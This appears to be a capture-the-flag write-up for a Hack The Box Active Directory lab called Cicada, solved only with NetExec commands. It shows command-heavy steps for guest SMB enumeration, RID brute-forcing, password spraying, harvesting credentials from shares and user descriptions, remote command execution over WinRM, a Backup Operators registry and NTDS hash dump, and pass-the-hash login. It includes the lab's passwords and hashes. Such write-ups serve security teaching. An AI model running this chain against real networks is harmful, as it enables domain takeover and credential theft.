


Target IP : 10.129.61.82
Get the /etc/hosts populated automatically via nxc
sudo nxc smb 10.129.61.82 --generate-hosts-file /etc/hostsLet’s enum SMB
nxc smb cicada.htb -u a -p '' --shareswe are able to list shares with guest access. There are non-default shares named “HR” and “DEV”, let’s take note of them
Now, let’s use the --rid-brute option to enumerate domain users
nxc smb cicada.htb -u a -p '' --rid-bruteWe can clean up the output to get a nice list of users
cat tmp | cut -d '\' -f2 | awk '{print $1}'Another thing we can try is the spider_plus module, which searches file shares with read access
nxc smb cicada.htb -u a -p '' -M spider_plusThe spider_plus module saves the list of files in a json file. In our case, it dumped the results in /tmp/nxc_hosted/nxc_spider_plus/10.129.61.82.json Looking at the output, we can see a file inside the HR share called “Notice from HR.txt”, which we have read access to
{
"HR": {
"Notice from HR.txt": {
"atime_epoch": "2024-08-28 18:31:48",
"ctime_epoch": "2024-03-14 13:29:03",
"mtime_epoch": "2024-08-28 18:31:48",
"size": "1.24 KB"
}
}
}We can use the --get-file option along with the --share option to grab the file to our local machine
nxc smb cicada.htb -u a -p '' --get-file 'Notice from HR.txt' notice-from-hr.txt --share HRInspecting the file reveals a plaintext password
Cicada$M6Corpb*@Lp#nZp!8
Since we dont know which user that password belongs to, we can spray it with the list of users we gathered earlier.
nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-successIn this case, we get a hit for the user michael.wrightson
With these credentials in hand, we can use the --users flag to enumerate more users and check their descriptions, as some users may store their passwords there
We can see a note in david.orelious’ description revealing his password
valid creds we have now
user : david.orelious pass : 'aRt$Lp#7t*VQ!3'
Let’s check if our new user has access to the DEV share using the --shares option
nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --sharesIndeed, the user has read access to that share. Once again, let’s use the spider_plus module to look for interesting files
nxc smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' -M spider_plus
There’s a PowerShell script called “Backup_script.ps1” inside the share
We can use the same command as before to download the PowerShell script from the DEV share
nxc smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --get-file 'Backup_script.ps1' Backup_script.ps1 --share DEVuser : emily.oscars pass : 'Q!3@Lp#M6b*7t*Vt'
They also work for winrm and we can PsRemote (Pwn3d!)
nxc winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'NetExec has an option to execute PowerShell commands remotely using the -X option—so I can grab the flag anyway!
nxc winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -X 'cat C:\Users\emily.oscars.CICADA\desktop\user.txt'Now heading to Administrator PrivEsc
Let’s start by checking which groups our user belongs to using the groupmembership module for LDAP
nxc ldap cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M groupmembership -o USER="emily.oscars"Looking at the output, we see that our user is a member of the Backup Operators group, a high-privilege group. This allows us to dump NTDS
Backup Operators
I added a custom module of nxc to dump NTDS if the user is part of Backup Operators
❯ nxc smb cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M backup_operator
SMB 10.10.11.35 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Triggering RemoteRegistry to start through named pipe...
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SAM to \\10.10.11.35\SYSVOL\SAM
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SYSTEM to \\10.10.11.35\SYSVOL\SYSTEM
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SECURITY to \\10.10.11.35\SYSVOL\SECURITY
BACKUP_O... 10.10.11.35 445 CICADA-DC Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
BACKUP_O... 10.10.11.35 445 CICADA-DC Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35 445 CICADA-DC DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35 445 CICADA-DC $MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588c0f269a7e182c3c04b96f7b5bc4af488e128f8
BACKUP_O... 10.10.11.35 445 CICADA-DC $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696
BACKUP_O... 10.10.11.35 445 CICADA-DC dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
BACKUP_O... 10.10.11.35 445 CICADA-DC NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696
SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Dumping NTDS...
SMB 10.10.11.35 445 CICADA-DC [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 10.10.11.35 445 CICADA-DC [-] Could not connect: timed out
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Cleaning dump with user Administrator and hash 2b87e7c93a3e8a0ea4a581937016f341 on domain cicada.htb
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Successfully deleted dump files !This module handles everything for us and dumps the Administrator hash. We can use this hash to login to the box and read the root flag
nxc smb cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -x 'type \users\administrator\desktop\root.txt'
Bling Bling Baby All done via using only nxc !
nothing else used at all , no additional script or tool used except only nxc